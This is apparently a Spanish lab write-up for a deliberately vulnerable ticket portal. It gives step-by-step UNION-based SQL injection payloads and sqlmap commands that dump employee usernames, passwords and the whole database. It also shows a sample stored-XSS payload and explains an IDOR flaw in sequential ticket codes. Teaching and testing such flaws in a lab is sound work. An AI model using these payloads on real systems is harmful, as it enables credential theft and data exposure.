


# 🧩 Guía SQLi – Enumeración de base de datos (Tickets)

## 🎯 Objetivo

A partir del endpoint:

```text
/estado_ticket.php?codigo=
```

vamos a:

1. Confirmar SQLi
2. Identificar número de columnas
3. Obtener nombre de la base de datos
4. Listar tablas
5. Listar columnas
6. Extraer datos

---

### 1. Punto de partida

Usamos un ticket válido, para ello creamos un ticket y usamos el codigo que nos proporciona:

```text
TCK-2026-001
```

URL base:

```text
http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001
```


### 2. Confirmar SQL Injection

```text
TCK-2026-001'
```

Si hay error o comportamiento distinto → posible SQLi.


### 3. Confirmación real

```text
' OR '1'='1'#
```

Si muestra varios tickets → SQLi confirmada.


### 4. Número de columnas (IMPORTANTE)

Probamos:

```text
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
```

Hasta que falle:

```text
' ORDER BY 7# → ERROR
```

Resultado:

La consulta tiene 6 columnas.


### 5. Preparar UNION SELECT

```text
' UNION SELECT 'A','B','C','D','E','F'#
```


### 6. Obtener nombre de la base de datos

```text
' UNION SELECT database(),'B','C','D','E','F'#
```


### 7. Listar tablas

```text
' UNION SELECT group_concat(table_name),'B','C','D','E','F'
FROM information_schema.tables
WHERE table_schema = database()#
```


### 8. Listar columnas de la tabla tickets

```text
' UNION SELECT group_concat(column_name separator ' | '),'B','C','D','E','F'
FROM information_schema.columns
WHERE table_name = 'tickets'#
```

### 9. Listar columnas de empleados

```text
' UNION SELECT group_concat(column_name separator ' | '),'B','C','D','E','F'
FROM information_schema.columns
WHERE table_name = 'empleados'#
```

### 10. Extraer usuarios

```text
' UNION SELECT group_concat(username separator ' | '),'B','C','D','E','F'
FROM empleados#
```

### 11. Extraer credenciales

```text
' UNION SELECT group_concat(username,':',password separator ' | '),'B','C','D','E','F'
FROM empleados#
```

---

## 🧠 Puntos clave 

- SQLi en endpoint público.
- Uso de ORDER BY.
- Uso de UNION SELECT.
- Uso de `database()`.
- Uso de `information_schema`.
- Uso de `group_concat`.


<p align="center">
  
</p>

En esta evidencia se observa cómo, mediante una consulta `UNION SELECT`, es posible extraer usuarios y contraseñas de la tabla `empleados`.

---

## Figura 2. Creación de ticket con posible XSS almacenado

<p align="center">
  
</p>

El formulario de creación de tickets permite introducir contenido controlado por el usuario. Si estos campos no se sanitizan correctamente al mostrarse posteriormente, podrían permitir ataques de XSS almacenado.

---

## Figura 3. Consulta de tickets por código público

<p align="center">
  
</p>

El endpoint permite consultar incidencias mediante un código de ticket. Si no existe un control de autorización adecuado, un atacante podría enumerar códigos y acceder a incidencias pertenecientes a otros usuarios.

---

# 🤖 Automatización con SQLMap

Además de la explotación manual, la vulnerabilidad puede analizarse mediante SQLMap.

## Descubrimiento de bases de datos

```bash
sqlmap \
-u "http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001" \
--batch \
--dbs
```

---

## Enumeración de tablas

```bash
sqlmap \
-u "http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001" \
-D portal_pyme \
--tables \
--batch
```

---

## Enumeración de columnas de la tabla empleados

```bash
sqlmap \
-u "http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001" \
-D portal_pyme \
-T empleados \
--columns \
--batch
```

---

## Extracción de credenciales

```bash
sqlmap \
-u "http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001" \
-D portal_pyme \
-T empleados \
-C username,password \
--dump \
--batch
```

---

## Dumpeo completo de la base de datos

```bash
sqlmap \
-u "http://<IP_SERVIDOR>:8080/estado_ticket.php?codigo=TCK-2026-001" \
-D portal_pyme \
--dump \
--batch
```

---

# 🧬 Riesgo asociado a XSS

La funcionalidad de creación de tickets introduce información controlada por el usuario que posteriormente puede ser visualizada por otros usuarios o por personal del departamento de soporte.

Si la aplicación no escapa correctamente estos datos antes de renderizarlos en HTML, un atacante podría conseguir la ejecución de código JavaScript arbitrario en el navegador de la víctima.

Ejemplo de payload:

```html
<script>alert("xss vulnerability")</script>
```

<div align="center">

<p><strong>Explotación del ticket mediante XSS</strong></p>

<video src="./img/vulneracion-tickets-xss.mp4" controls width="800"></video>

</div>


---

## Riesgos asociados

- Robo de cookies de sesión.
- Suplantación de usuarios autenticados.
- Modificación del contenido mostrado.
- Redirección a sitios maliciosos.
- Captura de credenciales mediante páginas falsas.
- Ejecución de acciones en nombre del usuario víctima.
- Uso del navegador de un administrador como punto de pivote.

En un escenario real, una vulnerabilidad XSS almacenada podría permitir comprometer las cuentas de los operadores de soporte o incluso obtener acceso administrativo al portal.

---

# 🔐 Riesgo asociado a IDOR

El identificador de los tickets es público y presenta un formato secuencial:

```text
TCK-2026-001
TCK-2026-002
TCK-2026-003
...
```

Si la aplicación únicamente verifica la existencia del ticket pero no comprueba que el usuario tenga autorización para visualizarlo, se produce una vulnerabilidad de tipo IDOR (*Insecure Direct Object Reference*).

Un atacante podría simplemente modificar el parámetro:

```text
codigo=TCK-2026-001
```

por:

```text
codigo=TCK-2026-002
```

y acceder a información perteneciente a otros usuarios.

Este tipo de vulnerabilidad puede provocar:

- Filtración de información sensible.
- Acceso a incidencias privadas.
- Exposición de datos personales.
- Obtención de información útil para ataques posteriores.
